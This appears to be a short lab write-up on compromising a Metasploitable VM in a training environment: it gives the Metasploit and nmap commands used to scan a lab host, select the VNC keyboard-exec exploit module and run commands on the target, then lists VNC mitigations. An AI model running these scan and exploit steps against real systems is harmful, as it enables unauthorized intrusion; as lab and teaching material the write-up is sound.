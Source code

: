 # 07 - Metasploitable VM
## Exploit
1. The Docker is a minimal version therefore it's needed to initialize the database and start meterpreter console
```bash
service postgresql start
msfdb init
msfconsole
```
![](01.png)
![](02.png)

2. In the next step, we are going to make a scan on the target, to decide which services are open and which not.
```bash
db_nmap -V-sV iloveshells.vm.vuln.land
db_nmap -A -p 0-10000
```
![](03.png)
![](04.png)
![](05.png)

3. VNC seems to be open, let's search for a exploit.

```bash
search vnc
```

4. Now we that to `use` the module and make sure that all needed options are set.  

```bash
use exploit/multi/vnc/vnc_keyboard_exec
set RHOSTS iloveshells.vm.vuln.land
run
```
![](06.png)
![](07.png)

5. Now we can make some funny stuff with the target. Let's run `ps`

![](08.png)

## Mitigation
- VNC should only be accessible with VPN
- Use strong encryption
- Use SSH based authentication
- Update to latest version
- Bye enterprise subscription
- Turn off screen blanking
- Set Blacklist Threshold 
- Turn on connection approval with owner is present